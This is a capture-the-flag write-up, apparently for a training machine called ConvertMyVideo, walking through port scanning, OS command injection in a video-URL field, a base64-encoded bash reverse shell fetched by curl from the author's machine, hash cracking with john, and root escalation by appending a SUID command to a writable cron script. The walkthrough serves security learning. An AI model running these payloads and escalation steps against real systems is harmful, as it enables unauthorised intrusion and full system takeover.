









## TL;DR

We find `OS Command Injection` and get shell as `www-data`.

Then, we escalate to root using cronjob that executes `/var/www/html/tmp/clean.sh` which we owns

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `80` with http and port `22` with ssh.

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1FkWVdXpiZN4JOheh/PVSTjXUgnhMNTFvHNzlip8x6vsFTwIwtP0+5xlYGjtLorEAS0KpJLtpzFO4p4PvEzMC40SY8E+i4LaiXHcMsJrbhIozUjZssBnbfgYPiwCzMICKygDSfG83zCC/ZiXeJKWfVEvpCVX1g5Al16mzQQnB3qPyz8TmSQ+Kgy7GRc+nnPvPbAdh8meVGcSl9bzGuXoFFEAH5RS8D92JpWDRuTVqCXGxZ4t4WgboFPncvau07A3Kl8BoeE8kDa3DUbPYyn3gwJd55khaJSxkKKlAB/f98zXfQnU0RQbiAlC88jD2TmK8ovd2IGmtqbuenHcNT01D
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI3zR5EsH+zXjBa4GNOE8Vlf04UROD9GrpAgx0mRcrDQvUdmaF0hYse2KixpRS8Pu1qhWKV
RP7nz0LX5nbzb4i4=
|   256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBKsS7+8A3OfoY8qtnKrVrjFss8LQhVeMqXeDnESa6Do
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `convertmyvideo.thm` to my `/etc/hosts`.

### OS Command Injection to shell as www-data

when viewing the root page, we can see this:



Behind the scenes it sends request like:
```bash
yt_url=https://www.youtube.com/watch?v=p123;
```

So, I tried to give it payload for reverse shell, like:
```bash
https://www.youtube.com/watch?v=p123;curl${IFS}http://192.168.132.168:8081/revshell.sh|sh;
```

When, i set up local http python server:
```bash
┌──(agonen㉿kali)-[~/thm/ConvertMyVideo]
└─$ echo -e '#!/bin/bash\nprintf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xMzIuMTY4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash' > revshell.sh
                                                                       
┌──(agonen㉿kali)-[~/thm/ConvertMyVideo]
└─$ python3 -m http.server 8081
```
and we got the reverse shell, using `OS Command Injection`.



### Find user flag and credentials

inside `/var/www/html/admin` we can find the flag and also password:
```bash
www-data@dmv:/var/www/html/admin$ ls -la
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Dec  3 12:47 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
www-data@dmv:/var/www/html/admin$ cat flag.txt 
flag{0d8486a0c0c42503bb60ac77f4046ed7}
www-data@dmv:/var/www/html/admin$ cat .htpasswd 
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```



using `john` we crack the hash:
```bash
┌──(agonen㉿kali)-[~/thm/ConvertMyVideo]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt       
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jessie           (?)     
1g 0:00:00:00 DONE (2025-12-03 15:00) 25.00g/s 9600p/s 9600c/s 9600C/s november..sabrina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



So, we got these credentials:
```bash
itsmeadmin:jessie
```

### Privilege Escalation to Root using cronjob task

I executed `pspy`, and saw the file `/var/www/html/tmp/clean.sh` is being executed as root every period of time.



We owns the file `clean.sh`:
```bash
www-data@dmv:/var/www/html/tmp$ ls -la clean.sh 
-rw-r--r-- 1 www-data www-data 17 Apr 12  2020 clean.sh
www-data@dmv:/var/www/html/tmp$ cat clean.sh 
rm -rf downloads
```

So, let's add our command inside:
```bash
echo -e 'chmod u+s /bin/bash' >> clean.sh
```

and wait, we can see that it got changed to `s` bit:



Let's grab the root flag:
```bash
www-data@dmv:/var/www/html/tmp$ /bin/bash -p
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
bash-4.4# cd /root
bash-4.4# ls
root.txt
bash-4.4# cat root.txt 
flag{d9b368018e912b541a4eb68399c5e94a}
```



Notice, the cronjob was hidden at `var/spool/cron/crontabs/root`, with root permissions, so that's why i couldn't find it when i was regular user.



